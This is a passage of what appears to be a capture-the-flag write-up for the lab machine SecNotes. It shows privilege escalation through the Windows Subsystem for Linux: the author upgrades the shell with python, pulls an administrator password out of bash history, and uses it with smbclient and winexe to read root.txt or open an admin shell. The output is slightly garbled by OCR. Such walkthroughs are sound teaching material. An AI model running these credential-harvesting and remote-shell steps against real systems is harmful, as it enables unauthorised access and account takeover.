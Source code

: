 ### Windows Subsytem for Linux

```powershell
PS C:\users\tyler\desktop> C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
Cmesg: ttyname failed: :\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
Inappropriate ioctl for device
```

We can upgrade the current shell using python. and check the history if we can gather some info.

```bash
$ whoami
-bash: line 1: $'whoami\r': command not found
$ which python
python -c 'import pty;pty.spawn("/bin/bash")'
$ root@SECNOTES:~# dir
dir
filesystem
$ root@SECNOTES:~# 
$ root@SECNOTES:~# history
history
    1  cd /mnt/c/
    2  ls
    3  cd Users/
    4  cd /
    5  cd ~
    6  ls
    7  pwd
    8  mkdir filesystem
    9  mount //127.0.0.1/c$ filesystem/
   10  sudo apt install cifs-utils
   11  mount //127.0.0.1/c$ filesystem/
   12  mount //127.0.0.1/c$ filesystem/ -o user=administrator
   13  cat /proc/filesystems
   14  sudo modprobe cifs
   15  smbclient
   16  apt install smbclient
   17  smbclient
   18  smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
   19  > .bash_history 
   20  less .bash_history
   21  dir
   22  history
root@SECNOTES:~# 
root@SECNOTES:~# 

```
We just got the admin credentials in the history.

You could use smbclient to connect C$ and get the **root.txt** or use `winexe` to get admin shell.

```bash
$ smbclient //secnotes.htb/C$ --user=administrator --password='u6!4ZwgwOM#^OBf#Nwnh'
get root.txt
```
or

`$ winexe -U '.\administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe`


